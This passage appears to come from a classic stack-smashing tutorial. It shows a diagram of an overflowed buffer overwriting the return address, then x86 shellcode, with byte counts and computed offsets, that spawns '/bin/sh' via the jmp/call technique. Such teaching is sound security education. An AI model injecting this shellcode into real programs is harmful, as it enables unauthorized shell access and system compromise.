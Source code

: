 
bottom of  DDDDDDDDEEEEEEEEEEEE  EEEE  FFFF  FFFF  FFFF  FFFF     top of
memory     89ABCDEF0123456789AB  CDEF  0123  4567  89AB  CDEF     memory
           buffer                sfp   ret   a     b     c

<------   [JJSSSSSSSSSSSSSSCCss][ssss][0xD8][0x01][0x02][0x03]
           ^|^             ^|            |
           |||_____________||____________| (1)
       (2)  ||_____________||
             |______________| (3)
top of                                                            bottom of
stack                                                                 stack



   With this modifications, using indexed addressing, and writing down how
many bytes each instruction takes our code looks like:

------------------------------------------------------------------------------
        jmp    offset-to-call           # 2 bytes
        popl   %esi                     # 1 byte
        movl   %esi,array-offset(%esi)  # 3 bytes
        movb   $0x0,nullbyteoffset(%esi)# 4 bytes
        movl   $0x0,null-offset(%esi)   # 7 bytes
        movl   $0xb,%eax                # 5 bytes
        movl   %esi,%ebx                # 2 bytes
        leal   array-offset,(%esi),%ecx # 3 bytes
        leal   null-offset(%esi),%edx   # 3 bytes
        int    $0x80                    # 2 bytes
        movl   $0x1, %eax		# 5 bytes
        movl   $0x0, %ebx		# 5 bytes
	int    $0x80			# 2 bytes
        call   offset-to-popl           # 5 bytes
        /bin/sh string goes here.
------------------------------------------------------------------------------

   Calculating the offsets from jmp to call, from call to popl, from
the string address to the array, and from the string address to the null
long word, we now have:

------------------------------------------------------------------------------
        jmp    0x26                     # 2 bytes
        popl   %esi                     # 1 byte
        movl   %esi,0x8(%esi)           # 3 bytes
        movb   $0x0,0x7(%esi)		# 4 bytes
        movl   $0x0,0xc(%esi)           # 7 bytes
        movl   $0xb,%eax                # 5 bytes
        movl   %esi,%ebx                # 2 bytes
        leal   0x8(%esi),%ecx           # 3 bytes
        leal   0xc(%esi),%edx           # 3 bytes
        int    $0x80                    # 2 bytes
        movl   $0x1, %eax		# 5 bytes
        movl   $0x0, %ebx		# 5 bytes
	int    $0x80			# 2 bytes
        call   -0x2b                    # 5 bytes
        .string \"/bin/sh\"		# 8 bytes
------------------------------------------------------------------------------
